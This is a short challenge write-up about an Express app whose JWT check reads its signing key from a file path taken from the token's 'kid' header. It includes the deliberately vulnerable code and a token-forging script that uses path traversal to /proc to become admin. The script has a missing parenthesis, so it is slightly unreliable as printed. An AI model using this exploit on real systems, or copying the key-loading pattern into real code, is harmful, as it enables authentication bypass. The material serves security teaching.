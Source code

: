 ## Code snippet challenge

```javascript
const fs = require('fs');
var jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const app = require('express')();
app.use(cookieParser());

app.use((req, res, next) => {
    const token = req.cookies.session;
    if (!token) return res.sendStatus(403);

    jwt.verify(token, 
      (header, cb) => {
        cb(null, fs.readFileSync(header.kid));
      }, { algorithm: 'HS256' }, (err, data) => {
        if (err) return res.sendStatus(403);
        req.name = data.name;
        return next();
      }
    );
});

app.get('/protected', (req, res) => {
  if (req.name !== 'admin') return res.sendStatus(401);
  res.send('You are the admin!');
});

app.listen(3000);
```

### Solution

We are looking at a node JS application that has a protected endpoint called '/protected' . We see that if request.name is equal to 'admin', we become the admin. Goal of the challenge is exactly that - to become the admin.
There is a middleware used here which is going to take a JWT session token from the cookies and verify it. If it is not valid, then the user is presented with a 403 HTTP response. When the token is verified here, the HS 256 algorith is being used. This is a symmetric algorithm relying on a secret key to sign the token. 
So if we would be able to get that key, when we could sign our malicious token and gain access to the application. Where does the key come from?

It comes from this statement:
```javascript
fs.readFileSync(header.kid));
```

It is a function that gets called with the JWT header and will return the secret.


### What's the secret? 


It reads a file from the filesystem that's defined by "header.kid". So the contents of that file will be the key. This vulnerable to the path traversal vulnerability because using ../ we can have it use any file we want. 
So what if an attacker sets the 'kid' to a file they know, such as "/proc/sys/kernel/ftrace_enabled which either contains '0' or '1'. the attacker would then sign the JWT token with that exact value they know as the key.


Simple code for that woud look like this:


```javascript
var jwt = require('jsonwebtoken');
const token = jwt.sign(
{name: 'admin'},
'1\n',
{
	algorithm: 'HS256',
	keyid: '../../../../proc/sys/kernel/ftrace_enabled'
};
console.log(token);
```
